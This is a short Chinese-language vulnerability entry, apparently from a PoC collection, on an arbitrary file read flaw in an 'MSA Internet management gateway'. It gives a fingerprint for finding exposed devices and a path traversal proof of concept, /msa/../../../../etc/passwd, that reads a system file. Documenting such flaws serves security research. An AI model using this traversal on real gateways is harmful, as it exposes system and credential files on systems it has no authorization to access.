 # MSA 互联网管理网关 msa 任意文件下载漏洞

## 漏洞描述

MSA 互联网管理网关存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器任意文件

## 漏洞影响

<a-checkbox checked>MSA 互联网管理网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"互联网管理网关"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1628845284708-f3f1c3ed-387c-49d6-a817-c1a8264fda2e.png)

验证POC

```php
/msa/../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1628845414925-23bff98f-8fb8-4fee-aee6-cd981973b368.png)



若有收获，就点个赞吧